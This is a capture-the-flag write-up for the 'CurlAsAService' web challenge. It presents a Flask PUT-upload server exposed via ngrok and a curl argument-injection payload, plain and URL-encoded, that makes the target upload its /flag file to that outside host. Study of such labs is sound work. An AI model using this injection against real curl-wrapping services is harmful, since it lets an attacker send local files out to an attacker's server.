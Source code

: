 # CurlAsAService

### CHALLENGE DESCRIPTION

cURL As A Service or CAAS is a brand new Alien application, built so that humans can test the status of their websites. However, it seems that the Aliens have not quite got the hang of Human programming and the application is riddled with issues.



> I approached a black box testing on the challenge



## Website

<figure><img src="../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption><p>curl</p></figcaption></figure>

* A simple curl request that will get the frontend src code
* There are many ways to solve this challenge
* I will make a flask app that handles put request and tell curl to put the file on my app



### Flask app

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/upload', methods=['PUT'])
def upload_file():
    uploaded_file = request.files['file']

    if uploaded_file:
        file_path = f"./uploads/{uploaded_file.filename}"
        uploaded_file.save(file_path)

        return f"File '{uploaded_file.filename}' uploaded successfully.\n"
    else:
        return "No file received in the request.\n", 400

if __name__ == '__main__':
    app.run(debug=False)
```



* After this start ngrok on port 5000
* run the app.py file

### Payload

```bash
-X PUT -F "file=@/flag"  https://f9e2-122-177-22-17.ngrok-free.app/upload
```

* breakdown:
  * **-X PUT** : this will tell curl what http method to use
  * **-F "file=@/flag"** : This will tell curl what file to upload (-F is basically to mention we are using file)
* Turn on burspsuite and url encode the above payload

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
-X+PUT+-F+"file%3d%40/flag"++https%3a//f9e2-122-177-22-17.ngrok-free.app/upload
```

## pwned

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
